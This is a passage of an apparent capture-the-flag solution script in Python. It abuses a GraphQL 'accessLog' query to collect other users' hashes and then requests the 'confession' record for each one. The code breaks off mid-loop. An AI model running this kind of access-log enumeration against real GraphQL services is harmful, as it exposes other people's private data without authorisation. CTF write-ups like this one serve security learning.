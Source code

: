 ```python
import requests
import json

session = requests.Session()

url = 'https://confessions.flu.xxx/graphql'

query = """
query Q{
    accessLog{
        name, timestamp, args
    }
}
"""

full_query = {
    'operationName': None,
    'query': query,
    'variables':{
        'hash':'827ade3254c72ae811201b418766d9a8802e91b029d95cc9de2f0169274aedd7'
    }
}
r = session.post(url, json=full_query)

response_json = json.loads(r.text)

print('Query: ')
print(query)
print('************************************************')

print('response: ')
print(json.dumps(response_json, indent=2))
print('************************************************')
print('------------------------------------------------')
print()

hashes = []
for i in response_json['data']['accessLog']:
    if 'hash' in i['args']:
        hashes.append(i['args'].split('":"')[1].split('"}')[0])

for h in hashes: print(h)



############################################################
# send each hash

query = """
query Q($hash: String){
    confession(hash: $hash){
        title, hash, id, message
    }
}
"""


for h in hashes:
    full_query = {
        'operationName': None,
        'query': query,
        'variables':{
            'hash':h
```